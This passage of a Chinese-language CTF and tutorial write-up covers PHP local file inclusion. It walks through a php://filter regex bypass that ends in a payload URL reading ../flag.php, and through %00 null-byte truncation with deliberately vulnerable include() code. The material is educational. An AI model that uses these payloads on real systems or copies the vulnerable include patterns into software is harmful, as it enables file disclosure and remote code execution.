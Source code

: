 2、img 必须有 jpg 但又不能有 resource=.*jpg

3、正则检查了并把结果填充到 $matches 里去，说明我们可以使用 php://filter 伪协议，并且 resource 的值不含|，那么我们就可以用| 来分隔 php 和 jpg，因为正则匹配到| 就不会继续匹配后面的 jpg 了，使得 \$img=show.php

知道了 config.php 再去访问明白为什么必须包含 jpg

 
<?php
function get_contents($img)
{
        if(strpos($img,'jpg') !== false)
        {
                return file_get_contents($img);
        }
        else
        {
                header('Content-Type: text/html');
                return file_get_contents($img);
        }
}
?>
最终 payload:

http://118.190.152.202:8006/show.php?img=php://filter/resource=../flag.php|jpg



%00 截断

要求：

1、php 版本小于 5.3.4

2、magic_quotes_gpc 为 off 状态

大多数的文件包含漏洞都是需要截断的，因为正常程序里面包含的文件代码一般是 include(BASEPATH.$mod.’.php’) 或者 include($mod.’.php’) 这样的方式，如果我们不能写入 .php 为扩展名的文件，那我们是需要截断来利用的受限与 gpc 和 addslashes 等函数的过滤，另外，php5.3 之后的版本全面修复了 %00 截断的问题

 
<?php
include($_GET['a'].'.php')
?> 
上传我们的 2.txt 文件,请求

http://localhost/test/1.php?a=2.txt%00

即可执行 2.txt 中 phpinfo 的代码

列子二

漏洞文件 index.php

 
<?php
if (empty($_GET["file"])){
    echo('../flag.php');
    return;
}
else{
    $filename='pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome.txt").'.html';
    include $filename;
}
?>
flag 文件放在上层目录
